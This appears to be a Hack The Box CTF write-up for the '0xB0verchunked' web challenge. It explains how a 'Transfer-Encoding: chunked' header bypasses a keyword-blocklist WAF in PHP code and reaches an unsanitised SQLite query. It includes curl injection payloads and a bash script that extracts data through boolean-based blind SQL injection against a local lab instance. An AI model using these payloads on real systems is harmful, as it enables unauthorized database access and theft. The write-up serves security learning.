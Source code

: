 ```yaml
---
layout: post
title: 0xBOverchunked
date: 2024-03-01 18:27 -0500
img_path: /assets/img/0xBOcerchunked/
published: true
categories: ["Hack The Box","Web Challenge"]
tags: ["SQLi", "CTF"]
toc: true
---
```

# 0xB0verchunked
The webpage features a basic search functionality, which suggests the possibility of an SQL injection. This suspicion deepens when a straightforward payload, such as ```1'```, is attempted
![Waf?](image.png)
lets take that string as the starting point on our source code review

## Source code Review

That string leads  us to the SearchHandler.php file. we observe that the function **waf_sql_injection** processes our input. Depending on the output, it will either execute the query using **safequery**, or displays the message "SQL Injection attemp..."

```php
<?php
function waf_sql_injection($input)
{
    $sql_keywords = array(
        'SELECT',
        'INSERT',
        'UPDATE',
        'DELETE',
        'UNION',
        'DROP',
        'TRUNCATE',
        'ALTER',
        'CREATE',
        'FROM',
        'WHERE',
        'GROUP BY',
        'HAVING',
        'ORDER BY',
        'LIMIT',
        'OFFSET',
        'JOIN',
        'ON',
        'SET',
        'VALUES',
        'INDEX',
        'KEY',
        'PRIMARY',
        'FOREIGN',
        'REFERENCES',
        'TABLE',
        'VIEW',
        'AND',
        'OR',
        "'",
        '"',
        "')",
        '-- -',
        '#',
        '--',
        '-'
    );

    foreach ($sql_keywords as $keyword)
    {
        if (stripos($input, $keyword) !== false)
        {
            return false;
        }
    }
    return true;
}

?>
```
Take and array of keywords and check if the input string contains any of them, *strpost()* function works: 'Find the position of the first occurrence of a case-insensitive substring in a string'. 
So we need to find a way inject without using any keywords on the array , first on my mind is how to escape the single quote without using single quote. 
Now check the other function **safequery** 
```php
function safequery($pdo, $id)
{
    if ($id == 6)
    {
        die("You are not allowed to view this post!");
    }

    $stmt = $pdo->prepare("SELECT id, gamename, gamedesc, image FROM posts  WHERE id = ?");
    $stmt->execute([$id]);

    $result = $stmt->fetch(PDO::FETCH_ASSOC);

    return $result;
}
```
Interesting that thing on post 6, but we can observe, they use prepared statement to execute queries, so even if we bypass the 'WAF' we can't inject sql queries. 

That thing of ```$id == 6 ``` wake up my curiosity and i decide to review db folder, because inspecting on the **Dockerfile**, I notice on line 17 
```RUN sqlite3 /opt/app/db/chunked.db < /opt/app/db/init.sql```
This command for initializing the SQLite database within the Docker container caught my attention. It hinted at the database structure and potential entry points for investigation.
```sql
INSERT INTO posts (gamename, gamedesc, image)
VALUES
  ('Pikachu', 'A small, yellow, mouse-like creature with a lightning bolt-shaped tail. Pikachu is one of the most popular and recognizable characters from the Pokemon franchise.', '1.png'),
  ('Pac-Man', 'Pac-Man is a classic arcade game where you control a yellow character and navigate through a maze, eating dots and avoiding ghosts.', '2.png'),
  ('Sonic', 'He is a blue anthropomorphic hedgehog who is known for his incredible speed and his ability to run faster than the speed of sound.', '3.png'),
  ('Super Mario', 'Its me, Mario, an Italian plumber who must save Princess Toadstool from the evil Bowser.', '4.png'),
  ('Donkey Kong', 'Donkey Kong is known for his incredible strength, agility, and his ability to swing from vines and barrels.', '5.png'),
  ('Flag', 'HTB{f4k3_fl4_f0r_t35t1ng}', '6.png');
```
Now we know what our goal is. 
Going back to the **SearchHandler.php** we can see the at the beginning, before entering the **waf_sql_injection** function an If statement 
```php
if (isset($_SERVER["HTTP_TRANSFER_ENCODING"]) && $_SERVER["HTTP_TRANSFER_ENCODING"] == "chunked")
{
    $search = $_POST['search'];

    $result = unsafequery($pdo, $search);

    if ($result)
    {
        echo "<div class='results'>No post id found.</div>";
    }
    else
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }

}
```
If we send a request with ```Transfer-encoding: chunked``` header besides the Content-length header, we will pass to the **unsafequery** function
```php
function unsafequery($pdo, $id)
{
    try
    {
        $stmt = $pdo->query("SELECT id, gamename, gamedesc, image FROM posts WHERE id = '$id'");
        $result = $stmt->fetch(PDO::FETCH_ASSOC);
        return $result;
    }
    catch(Exception $e)
    {
        http_response_code(500);
        echo "Internal Server Error";
        exit();
    }
}
```
This function as his name suggest its unsafe because pass the ```$id``` variable whitout sanitization.


## Local Testing

We can make the request with the header required using Burp Suite.
![alt text](image-1.png)
The bad thing its that we need to update the size of the chunk manual, and that is horrible. 
So we can use curl command 
```bash
curl  -s -k -X 'POST'  -H 'Host: 127.0.0.1:1337' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'and 1=2-- -" 'http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php'

Internal Server Error
```
and 
```bash
curl  -s -k -X 'POST'  -H 'Host: 127.0.0.1:1337' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:123.0) Gecko/20100101 Firefox/123.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'and 1=1-- -" 'http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php'

<div class='results'>No post id found.</div>
```
Whith this we confirm a boolean-base sql injection. 

## Proof of Concept

Lets make a bash script to exploit this.
```bash
#!/bin/bash

url="http://127.0.0.1:1337/Controllers/Handlers/SearchHandler.php"

function oracle()
{
    local q="$1"
    request=$(curl  -s -k -X 'POST' -H 'User-Agent: Mozilla/5.0' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Transfer-Encoding: chunked' -d "search=1'AND (${q})--" ${url} | html2text)
#    echo ${request}
    if [[ "${request}" =~ "No post id found." ]]; then
        return 1
    else
        return 0   
    fi
}
finalValue=""
for i in $(seq 1 36); do
    low=32
    high=127
    while [[ "$low" -le "$high" ]]; do
       mid=$(((low + high) / 2))
       q="SELECT UNICODE(SUBSTR(gamedesc,${i},1)) FROM posts WHERE gamename='Flag' AND UNICODE(SUBSTR(gamedesc, ${i}, 1)) BETWEEN ${mid} AND ${high}"
        if oracle "$q"; then
            high=$((mid - 1))
        else
            low=$((mid + 1))
        fi     
    done
    finalValue=$((low - 1)) # Don't know why , - 1?
    printf "\x$(printf %x "${finalValue}")"
done
```

![pwned](image-2.png)